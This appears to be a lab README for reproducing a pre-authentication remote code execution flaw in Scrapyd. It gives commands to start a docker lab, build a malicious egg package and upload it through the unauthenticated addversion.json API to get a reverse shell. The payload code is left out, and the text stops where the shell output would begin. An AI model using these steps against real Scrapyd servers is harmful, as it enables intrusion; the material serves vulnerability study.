

Scrapyd Pre-Auth Remote Code Execution¶
Scrapyd is an application for deploying and running Scrapy spiders. It enables users to deploy (upload) projects and control their spiders using a JSON API.
References: https://www.leavesongs.com/PENETRATION/attack-scrapy.html
Start server¶
Execution the following command to start a scrapyd server:
docker compose up -d
After scrapyd is deployed, the server is listening on http://your-ip:6800.
Reproduce¶
Build a evil egg archive:
pip install scrapy scrapyd-client
scrapy startproject evil
cd evil
# edit evil/__init__.py, add evil code
scrapyd-deploy --build-egg=evil.egg
Upload evil egg to the scrapyd server:
curl http://your-ip:6800/addversion.json -F project=evil -F version=r01 -F egg=@evil.egg
reverse shell is available:
